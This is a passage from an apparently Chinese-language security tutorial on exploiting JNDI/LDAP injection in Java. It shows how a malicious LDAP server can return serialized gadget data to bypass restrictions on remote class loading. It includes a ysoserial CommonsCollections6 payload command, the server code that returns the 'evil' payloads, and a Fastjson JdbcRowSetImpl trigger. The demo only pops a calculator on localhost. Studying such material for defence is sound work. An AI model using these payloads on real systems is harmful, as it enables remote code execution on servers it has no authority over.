 这里 javaCodebase 属性可以指定远程的URL，这样黑客可以控制反序列化中的class，通过JNDI Reference的方式进行利用（这里不再赘述，示例代码可以参考文末的Demo链接）。不过像前文所说的，高版本JVM对Reference Factory远程加载类进行了安全限制，JVM不会信任LDAP对象反序列化过程中加载的远程类。此时，攻击者仍然可以利用受害者本地CLASSPATH中存在漏洞的反序列化Gadget达到绕过限制执行命令的目的。

简而言之，LDAP Server除了使用JNDI Reference进行利用之外，还支持直接返回一个对象的序列化数据。如果Java对象的 javaSerializedData 属性值不为空，则客户端的 obj.decodeObject() 方法就会对这个字段的内容进行反序列化。其中具体的处理代码如下：

```java
if ((attr = attrs.get(JAVA_ATTRIBUTES[SERIALIZED_DATA])) != null) { 
    ClassLoader cl = helper.getURLClassLoader(codebases);
    return deserializeObject((byte[])attr.get(), cl);
}
```

我们假设目标系统中存在着有漏洞的CommonsCollections库，使用ysoserial生成一个CommonsCollections的利用Payload：
```java
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 '/Applications/Calculator.app/Contents/MacOS/Calculator'|base64
```

LDAP Server关键代码如下，我们在javaSerializedData字段内填入刚刚生成的反序列化payload数据：
```java
...
protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
    URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
    System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
    e.addAttribute("javaClassName", "foo");
    String cbstring = this.codebase.toString();
    int refPos = cbstring.indexOf('#');
    if ( refPos > 0 ) {
        cbstring = cbstring.substring(0, refPos);
    }
    /** Payload1: Return Evil Reference Factory **/
    // e.addAttribute("javaCodeBase", cbstring);
    // e.addAttribute("objectClass", "javaNamingReference");
    // e.addAttribute("javaFactory", this.codebase.getRef());

    /** Payload2: Return Evil Serialized Gadget **/
    try {
        // java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 '/Applications/Calculator.app/Contents/MacOS/Calculator'|base64
        e.addAttribute("javaSerializedData",Base64.decode("rO0ABXNyABFqYXZhLn....."));
    } catch (ParseException e1) {
        e1.printStackTrace();
    }

    result.sendSearchEntry(e);
    result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
}
...
```

模拟受害者进行JNDI lookup操作，或者使用Fastjson等漏洞模拟触发，即可看到弹计算器的命令被执行。
```java
Hashtable env = new Hashtable();
Context ctx = new InitialContext(env);
Object local_obj = ctx.lookup("ldap://127.0.0.1:1389/Exploit");

String payload ="{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://127.0.0.1:1389/Exploit\",\"autoCommit\":\"true\" }";
JSON.parse(payload);
```

